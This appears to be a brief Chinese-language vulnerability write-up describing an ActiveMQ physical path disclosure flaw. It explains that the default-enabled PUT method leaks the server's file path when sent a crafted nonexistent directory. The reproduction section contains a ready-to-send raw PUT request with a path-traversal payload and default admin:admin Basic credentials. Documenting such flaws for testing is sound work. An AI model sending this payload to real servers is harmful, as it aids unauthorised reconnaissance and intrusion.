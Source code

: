 ## ActiveMQ物理路径泄漏漏洞

### 漏洞简介

ActiveMQ默认开启PUT请求，当开启PUT时，构造好Payload(即不存在的目录)，Response会返回相应的物理路径信息

### 复现过程

```bash
Request Raw:
PUT /fileserver/a../../%08/..%08/.%08/%08 HTTP/1.1
Host: 192.168.197.25:8161
Authorization: Basic YWRtaW46YWRtaW4=
Content-Length: 4
```